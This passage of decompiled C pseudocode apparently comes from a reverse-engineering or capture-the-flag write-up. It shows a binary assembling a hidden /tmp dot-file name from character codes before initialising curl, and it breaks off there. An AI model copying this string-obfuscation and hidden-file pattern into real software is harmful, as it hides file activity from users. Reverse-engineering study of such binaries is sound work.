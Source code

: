 >  void *buffer; // [sp+22D0h] [bp-80h]@22
>  size_t v38; // [sp+22D8h] [bp-78h]@22
>  FILE *v39; // [sp+22E0h] [bp-70h]@22
>  int v40; // [sp+22ECh] [bp-64h]@22
>  int v41; // [sp+22F0h] [bp-60h]@22
>  int v42; // [sp+22F4h] [bp-5Ch]@22
>  int v43; // [sp+22F8h] [bp-58h]@22
>  int v44; // [sp+22FCh] [bp-54h]@20
>  FILE *stream; // [sp+2300h] [bp-50h]@20
>  void *arg; // [sp+2308h] [bp-48h]@16
>  int v47; // [sp+2314h] [bp-3Ch]@4
>  size_t n; // [sp+2318h] [bp-38h]@1
>  __int64 m; // [sp+2320h] [bp-30h]@22
>  int k; // [sp+2328h] [bp-28h]@13
>  int j; // [sp+232Ch] [bp-24h]@7
>
>  n = 0x1F40001809E0LL;
>  v1 = 0x401480LL;
>  v2 = index_table;
>  for ( i = 38LL; i; --i )
>  {
>    *v2 = *(_QWORD *)v1;
>    v1 += 8LL;
>    ++v2;
>  }
>  v47 = 38;
>  v4 = 16LL;
>  v5 = v34;
>  v6 = 4199872LL;
>  while ( v4 )
>  {
>    *(_QWORD *)v5 = *(_QWORD *)v6;
>    v6 += 8LL;
>    v5 += 8;
>    --v4;
>  }
>  *(_WORD *)v5 = *(_WORD *)v6;
>  v5[2] = *(_BYTE *)(v6 + 2);
>  setbuf(stdout, 0LL);
>  for ( j = 0; j <= 64; ++j )
>    v33[j] = v34[2 * j];
>  v7 = 512LL;
>  v8 = &v21;
>  while ( v7 )
>  {
>    *(_QWORD *)v8 = 0LL;
>    v8 += 8;
>    --v7;
>  }
>  v22 = 47;
>  v23 = 116;
>  v24 = 109;
>  v25 = 112;
>  v26 = 47;
>  v27 = 46;
>  v28 = 116;
>  v29 = 101;
>  v30 = 114;
>  v31 = 97;
>  v32 = 10;
>  for ( k = 0; k <= 9; ++k )
>    filename[k] = *(&v21 + 2 * k + 1);
>  v20 = 0;
>  LODWORD(v9) = curl_easy_init(v8, 0LL);